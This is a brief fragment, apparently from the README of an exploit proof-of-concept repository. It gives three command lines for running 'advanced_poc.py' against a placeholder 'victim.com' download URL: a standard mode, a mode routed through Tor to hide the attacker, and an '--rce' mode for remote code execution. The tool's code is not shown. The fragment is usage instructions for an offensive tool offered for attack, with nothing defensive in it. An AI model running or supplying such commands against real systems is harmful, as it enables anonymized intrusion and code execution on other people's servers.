 - standard use
python advanced_poc.py -u "http://victim.com/download"

- tor my onion open!
python advanced_poc.py -u "http://victim.com/download" --proxy

- rce use
python advanced_poc.py -u "http://victim.com/download" --rce
